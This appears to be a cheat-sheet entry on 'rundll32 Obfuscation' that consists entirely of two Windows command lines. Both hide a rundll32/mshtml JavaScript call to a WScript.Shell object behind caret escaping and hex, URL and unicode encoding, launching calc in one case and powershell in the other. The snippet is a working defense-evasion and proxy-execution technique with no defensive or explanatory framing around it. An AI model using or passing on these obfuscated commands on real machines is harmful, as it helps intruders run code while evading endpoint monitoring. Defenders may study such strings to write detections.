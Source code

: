 ### rundll32 Obfuscation

calc

`C:\> @run^dll^32 java^script:"\..\mshtml,RunHTMLApplication ";%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%29;%6e%65%77%20%41%63%74%69%76%65%58%4f%62%6a%65%63%74%28'\x57\x53\x63\x72\x69\x70\x74\x2e\x53\x68\x65\x6c\x6c'%29.%52%75%6e%28'\u0063\u0061\u006c\u0063'%29`

powershell

`C:\> @run^dll^32 java^script:"\..\mshtml,RunHTMLApplication ";%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%29;%6e%65%77%20%41%63%74%69%76%65%58%4f%62%6a%65%63%74%28'\x57\x53\x63\x72\x69\x70\x74\x2e\x53\x68\x65\x6c\x6c'%29.%52%75%6e%28'\u0070\u006f\u0077\u0065\u0072\u0073\u0068\u0065\u006c\u006c'%29`

